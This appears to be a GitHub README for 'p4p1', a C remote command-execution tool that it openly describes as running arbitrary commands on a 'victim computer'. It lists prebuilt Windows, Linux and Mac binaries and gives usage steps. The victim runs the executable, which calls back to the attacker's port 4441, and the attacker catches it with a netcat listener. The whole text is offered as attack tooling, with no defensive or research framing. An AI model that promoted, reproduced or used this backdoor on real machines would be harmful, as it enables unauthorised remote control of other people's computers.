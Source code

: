 # p4p1
C open Source TCP server/client to execute arbitury commands on victim computer. They are all in developpement state.
For now the only stable versions are:

##Windows
   	-p4p1-o_64.exe
   	-p4p1-o_32.exe
##Linux
   	-p4p1
##Mac
    -p4p1-mac_binairy


#How To use:
For the p4p1-o verison you need to execute them on the victim's PC,
and then open you're port 4441 and listen on it using any tcp server for exemple netcat.

For the p4p1 basic binaries, it is a command line program and you need to put it into server mode on the victim's PC
with the listening port, and connect to it with the client in the same app.

#Exemple:

##Victim:
Execute p4p1-o_Vx.exe

##Attacker:
nc -l 4441<br />
0<- dont forget this so that the prompt shows up.<br />

\<p4p1 /\><br />
